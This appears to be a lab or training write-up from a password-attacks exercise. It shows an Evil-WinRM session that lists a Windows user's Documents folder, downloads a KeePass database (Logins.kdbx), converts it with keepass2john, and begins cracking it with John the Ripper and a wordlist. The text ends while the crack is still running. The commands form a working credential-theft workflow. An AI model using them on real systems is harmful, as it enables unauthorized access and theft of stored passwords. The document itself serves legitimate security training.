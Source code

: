 ### Enumerate the target machine

```Bash
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\johanna\Documents> dir


    Directory: C:\Users\johanna\Documents


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        2/11/2022   2:13 AM           2126 Logins.kdbx
```

- There is a Logins.kdbx file
- We need to download it to see what we can do further

### Downloading the Login document

- It will be stored in the root directory of the current user

```Bash
*Evil-WinRM* PS C:\Users\johanna\Documents> download Logins.kdbx
                                        
Info: Downloading C:\Users\johanna\Documents\Logins.kdbx to Logins.kdbx
                                        
Info: Download successful!
```

### Use keepass2john to convert the kdbx file

```Bash
┌──(root㉿kali)-[/home/kali/Password_Attacks/HARD]
└─# keepass2john Logins.kdbx > Logins.hash
                                                                                                                    
┌──(root㉿kali)-[/home/kali/Password_Attacks/HARD]
└─# ls
custom.rule    Logins.hash  mut_password.list     password.list
easy_pass.txt  Logins.kdbx  Password-Attacks.zip  username.list
```

### Crack the Login hash file with John

```Bash
㉿kali)-[/home/kali/Password_Attacks/HARD]
└─# john --wordlist=mut_password.list Logins.hash 
Using default input encoding: UTF-8
Loaded 1 password hash (KeePass [SHA256 AES 32/64])
Cost 1 (iteration count) is 60000 for all loaded hashes
Cost 2 (version) is 2 for all loaded hashes
Cost 3 (algorithm [0=AES 1=TwoFish 2=ChaCha]) is 0 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
```
